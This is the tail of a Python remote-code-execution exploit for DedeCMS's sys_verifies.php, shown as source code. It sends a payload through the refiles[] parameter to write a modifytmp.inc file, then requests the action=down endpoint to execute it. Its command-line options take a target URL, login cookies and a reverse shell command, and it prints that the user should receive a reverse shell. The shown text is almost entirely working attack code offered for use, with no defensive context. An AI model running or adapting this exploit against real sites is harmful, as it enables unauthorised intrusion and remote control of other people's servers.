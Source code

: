 ```python
        "Priority": "u=0, i"
    }
    
    print("[*] Sending malicious payload to create modifytmp.inc...")
    
    # Step 1: Create the malicious file
    try:
        create_url = f"{target_url}/dede/sys_verifies.php?action=getfiles&refiles[]={payload}"
        response = requests.get(create_url, cookies=cookies, headers=headers, timeout=10)
        
        if response.status_code == 200:
            print("[+] Payload sent successfully!")
        else:
            print(f"[-] Failed to send payload. Status code: {response.status_code}")
            return False
    except Exception as e:
        print(f"[-] Error sending payload: {str(e)}")
        return False
    
    print("[*] Triggering command execution...")
    
    # Step 2: Trigger the command execution
    try:
        trigger_url = f"{target_url}/dede/sys_verifies.php?action=down&curfile=1"
        response = requests.get(trigger_url, cookies=cookies, headers=headers, timeout=10)
        
        if response.status_code == 200:
            print("[+] Command triggered successfully!")
            print("[+] If the command was successful, you should receive your reverse shell.")
            return True
        else:
            print(f"[-] Failed to trigger command. Status code: {response.status_code}")
            return False
    except Exception as e:
        print(f"[-] Error triggering command: {str(e)}")
        return False

def main():
    parser = argparse.ArgumentParser(description="DedeCMS sys_verifies.php RCE Exploit")
    parser.add_argument("-u", "--url", required=True, help="Target URL (e.g., http://example.com)")
    parser.add_argument("-c", "--cookies", required=True, help="Cookies for authentication")
    parser.add_argument("-s", "--shell", required=True, help="Reverse shell command to execute")
    
    args = parser.parse_args()
    
    print("[*] DedeCMS sys_verifies.php RCE Exploit")
    print(f"[*] Target: {args.url}")
    
    exploit(args.url, args.cookies, args.shell)

if __name__ == "__main__":
    main()
```
